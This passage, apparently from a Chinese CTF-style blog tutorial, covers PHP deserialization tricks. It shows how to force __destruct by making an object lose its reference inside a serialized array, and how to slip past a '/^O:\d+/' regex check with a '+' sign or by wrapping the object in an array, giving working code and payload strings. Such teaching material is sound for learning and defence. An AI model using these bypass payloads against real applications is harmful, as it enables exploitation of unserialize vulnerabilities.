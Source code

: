 这里我们要求输出 success!! ，但执行反序列化后得到的对象有了引用，给了 a 变量，后面程序接着就抛出一个异常，
非正常结束，导致未正常完成 GC 机制，即没有执行 `__destruct` 。

直接构造反序列化 test 类得到：

![]({{site.baseurl}}/images/20230413/20230413185250.png)

所以我们要反序列化手动去 “销毁” 创造的对象。这里我们可以利用数组来完成。构造：
```
class test {}
$a = serialize(array(new test, null));
echo $a.'<br/>';
$a = str_replace(':1', ':0', $a);//将序列化的数组下标为0的元素给为null
echo $a;
```

得到
```
a:2:{i:0;O:4:"test":0:{}i:1;N;}
a:2:{i:0;O:4:"test":0:{}i:0;N;}//最终payload
```

传入，成功得到 success!!

![]({{site.baseurl}}/images/20230413/20230413185255.png)

我们序列化一个数组对象，考虑反序列化本字符串，因为反序列化的过程是顺序执行的，所以到第一个属性时，
会将`Array[0]`设置为对象，同时我们又将`Array[0]`设置为null，这样前面的test对象便丢失了引用，
就会被GC所捕获，就可以执行`__destruct`了。

### 绕过正则

如`preg_match('/^O:\d+/')`匹配序列化字符串是否是对象字符串开头。

绕过方法
* 利用加号绕过（注意在url里传参时`+`要编码为`%2B`）。
* 利用数组对象绕过，如 `serialize(array($a));` a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的 $a 的析构)。

```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a.PHP_EOL;
    }
}
 
function match($data){
    if (preg_match('/^O:\d+/',$data)){
        die('nonono!');
    }else{
        return $data;
    }
}
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
// +号绕过
$b = str_replace('O:4','O:+4', $a);
unserialize(match($b));
// 将对象放入数组绕过 serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');
```
